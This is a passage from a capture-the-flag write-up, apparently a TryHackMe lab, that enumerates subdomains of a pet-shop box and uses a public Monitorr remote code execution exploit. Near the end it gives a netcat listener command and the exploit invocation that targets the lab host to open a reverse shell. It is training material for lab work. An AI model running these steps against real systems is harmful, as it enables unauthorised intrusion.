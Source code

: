
information at `/contact`:
![](/assets/img/thm/yotj/2.png)

`/business` requires authentication.
![](/assets/img/thm/yotj/3.png)

At port `8000`:

![](/assets/img/thm/yotj/4.png)

at port `8089`:

![](/assets/img/thm/yotj/5.png)

Hmm, didn't find anything serious.

taking a look at certificate, We can see there are other subdomains . adding them to etc/hosts.  :( Should have noticed that in the nmap results jeez.

![](/assets/img/thm/yotj/6.png)

`beta.robyns-petshop.thm` shows the page at `8000`.

`dev.robyns-petshop.thm/` shows the same pet page.

`monitorr.robyns-petshop.thm`:

![](/assets/img/thm/yotj/7.png)

Searchsploit results for monitorr:
```sh
searchsploit monitorr
```

![](/assets/img/thm/yotj/8.png)

--------------

# Gaining Shell - Monitorr RCE exploit

Downloading the following exploit from exploitdb : [LINK](https://www.exploit-db.com/exploits/48980)

setting up  a listener:
```sh
nc -lvnp 42424
```

![](/assets/img/thm/yotj/9.png)


executing the exploit:
```sh
python 48980.py https://monitorr.robyns-petshop.thm/ 10.17.47.158 42424
```
